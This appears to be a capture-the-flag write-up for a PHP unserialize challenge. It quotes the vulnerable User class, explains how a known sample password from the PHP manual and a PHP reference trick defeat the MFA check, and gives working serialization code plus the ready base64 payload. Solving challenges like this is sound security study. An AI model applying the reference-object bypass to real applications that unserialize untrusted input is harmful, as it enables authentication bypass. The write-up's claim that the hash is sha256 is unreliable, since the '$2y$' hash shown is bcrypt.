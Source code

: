 web unserialize


### 1,  index.php提供了api接口，flag响应代码
```
   if (!empty($_GET) && isset($_GET['userdata']))
  {
    // prepare notification data structure
    $notification = new stdClass();

    // check credentials & MFA
    try
    {
      $user = new User(base64_decode($_GET['userdata']));
      if ($user->verify())
      {
        $notification->type = 'success';
        $notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
      }
```
User verfiy实现如下：

```
final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}


	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

### 2, bypass

password_verify 使用的sha256 使用php文档中的样例口令'$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq'
https://www.php.net/manual/en/function.password-verify.php

```
    $this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
```
 mfa  _correctValue 通过对象引用bypass


### 3, get the flag
```
   class userData{
    public $username = "D0loresH4ze";
    public $password = "rasmuslerdorf";  //https://www.php.net/manual/en/function.password-verify.php
    public $_correctValue=0;
    public $mfa;
    public function __construct(){
        $this->mfa = &$this->_correctValue;
    }
  }

  echo base64_encode(serialize(new userData()));
  // Tzo4OiJ1c2VyRGF0YSI6NDp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MTM6Il9jb3JyZWN0VmFsdWUiO2k6MDtzOjM6Im1mYSI7Ujo0O30=
```
![alt text](corporate_mfs.png)
     
